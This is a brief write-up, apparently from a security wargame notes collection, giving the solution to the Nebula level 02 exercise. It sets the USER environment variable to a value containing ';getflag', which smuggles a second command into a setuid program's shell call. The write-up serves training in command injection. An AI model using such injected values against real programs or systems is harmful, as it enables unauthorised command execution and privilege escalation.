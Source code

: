 .. _nebula02

.. role:: bash(code)
	  :language: bash

Nebula level 02
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level02/

Solution
--------

Export a variable call :bash:`USER` like this:

:bash:`$export USER=";getflag"`

and then run

:bash:`/home/flag02/flag02`


